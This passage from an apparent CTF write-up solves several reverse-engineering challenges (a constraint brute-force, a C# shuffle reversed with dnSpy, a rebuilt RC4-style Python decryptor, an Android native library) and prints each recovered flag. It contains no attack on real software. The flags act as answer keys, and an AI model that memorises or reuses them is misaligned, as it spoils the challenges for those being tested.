                        if  ((v7 ^ (~(v7 + v5) | v5) & v4) & v6) == int('0b'+format(formula_value[0], '064b')[8*i:8*(i+1)], base=2) and \
                            (v5 & (v5 & v6 | ~(v5 | v4)) & v4 | v7 & v4 & v6) == int('0b'+format(formula_value[1], '064b')[8*i:8*(i+1)], base=2) and \
                            ((v7 & ~(v6 & v4) | (v4 + v6) & v6 | (v5 + v7) & v5 & ~v4) ^ v5) == int('0b'+format(formula_value[2], '064b')[8*i:8*(i+1)], base=2):
                                if i not in possible_comb:
                                    possible_comb[i] = []
                                possible_comb[i].append(''.join([chr(v4), chr(v5), chr(v6), chr(v7)]))
                                print(f"got {''.join([chr(v4), chr(v5), chr(v6), chr(v7)])}")
                                json.dump(possible_comb, open('possible_comb.json', 'w'), indent=4, ensure_ascii=False)


# analysis_bytewise()


def try_every_comb():
    import random
    from ctypes import c_longlong as ll
    
    possible_comb = json.load(open('possible_comb.json'))
    for key in possible_comb:
        possible_comb[key] = [x for x in possible_comb[key] if '#' not in x and ':' not in x and '\\' not in x and '<' not in x and '>' not in x and '"' not in x and '/' not in x]
        random.shuffle(possible_comb[key])
    num = 1
    for i in range(8):
        num *= len(possible_comb[str(i)])
    print(f'total {num} combinations')
    
    for i0 in tqdm(range(len(possible_comb['0']))):
        for i1 in tqdm(range(len(possible_comb['1']))):
            for i2 in range(len(possible_comb['2'])):
                for i3 in range(len(possible_comb['3'])):
                    for i4 in range(len(possible_comb['4'])):
                        for i5 in range(len(possible_comb['5'])):
                            for i6 in range(len(possible_comb['6'])):
                                for i7 in range(len(possible_comb['7'])):
                                    all_strs = []
                                    all_strs.append(possible_comb['0'][i0])  # high byte
                                    all_strs.append(possible_comb['1'][i1])
                                    all_strs.append(possible_comb['2'][i2])
                                    all_strs.append(possible_comb['3'][i3])
                                    all_strs.append(possible_comb['4'][i4])
                                    all_strs.append(possible_comb['5'][i5])
                                    all_strs.append(possible_comb['6'][i6])
                                    all_strs.append(possible_comb['7'][i7])
                                    value = [0, 0, 0, 0]
                                    for s in all_strs:
                                        for t in range(4):
                                            value[t] = (value[t] << 8) + ord(s[t])

                                    if  ll(ll(value[2] - value[3]).value ^ ll(value[0] - value[1]).value).value == 0x1146CDC7BFA3E00E and \
                                        ll(ll(value[2] + value[0] - value[3] + value[1]).value * ll(value[1] + value[0] + value[3] - value[2]).value).value == 0x30820AD98D807A4 and \
                                        ll(ll(value[2] - value[1] - value[0] - value[3]).value % 114514).value == 75028 and \
                                        ll(ll(value[0] * value[1] * value[2] * value[3]).value % 1919810).value == 567916:
                                            print(f'got {all_strs}')
                                            # ['Y_h}', '{et!', 'fv_!', 't@nz', 'chw2', 'u_0z', 'dun_', 'f0k3']
try_every_comb()
```

> fductf{Y0u_h@ve_kn0wn_th3_z2z!!}

## CSharpReverse

用 `dnSpy` 逆向一下，可以发现是打乱了顺序的 flag，按照源码的随机种子生成排序 key（找了个 online C# 编译器），重新排个序，就得到 flag 了。

```python
import os

keys = [872482159, 1865701635, 1639215879, 1843338195, 1632007296, 189331710, 1927158164, 1335502239, 1264562553, 1942326360, 1490445347, 492876195, 945484427, 1126389247, 756909202, 2099433979, 1496931961, 547682570, 247184224, 453692147, 550795219, 822776510, 256716377, 1256189302, 1607065786, 245798567, 2034638721, 1799433793, 1586198557, 1509828522, 1320204176, 1619885391, 1255644539]
string = 'hd3Q2fyvrbEfAr_}r{utcsc_!d4qeseAp'
sorted_str = sorted([(i, ch) for i, ch in enumerate(string)], key=lambda x: keys[x[0]])
print(''.join([x[1] for x in sorted_str]))
```

> fductf{c_shArp_revErse!A23qQdyb4}

## eazy_python

用 `pycdc` 逆向一下，发现源码 python 版本较高，逆向不出来，那就直接 `pycdas` 逆向出来字节码，然后发现字节码非常易读，就直接手动补全为 python 代码，生成异或的 key，就可以再异或一次恢复出 flag 了。

```python
# Source Generated with Decompyle++
# File: easy_python_bin.pyc (Python 3.11)


def mm(key):
    N = 256
    s = list(range(N))
    j = 0
    key_length = len(key)
    for i in range(N):
        j = (j + s[i] + key[i % key_length]) % N
        s[i], s[j] = s[j], s[i]
    return s


def de_nn(s):
    i = j = 0
    N = 256
    result = []
    ks = []
    for byte in range(28):
        i = (i + 1) % N
        j = (j + s[i]) % N
        s[i], s[j] = s[j], s[i]
        k = s[(s[i] + s[j]) % N]
        ks.append(k)
    return ks


def de(ks, data):
    result = []
    for byte, k in zip(data, ks):
        result.append(byte ^ k)
    print(bytes(result))


def chall():
    key = b'FDUCTF{2024}'
    chcek_data = bytes.fromhex('f9ecf8f97b8f96baecc607004ec26724623cee86ece84a4581f8c063')
    s = mm(key)
    de(de_nn(s), chcek_data)

if __name__ == '__main__':
    chall()
```

> fductf{Y0ur4r3g0Od@tPyth0n!}

## Paper-Scissors-Rock [OMITTED]

没看题

## eazy_rust [OMITTED]

没看题

## ez_android

用 `apktool` 逆向一下，发现里面东西很多，不过可以根据 `AndroidManifest.xml` 找到入口点，然后发现源码 load 了一个链接库，可以发现是在 lib/ 下，所以再用 IDA 逆向一下，发现是一个 byte-wise 给出的简单算式，很容易得到原始 flag。

> FLAG{u5w6Z4vZcPk}

## new_star-emu [OMITTED]

没看题
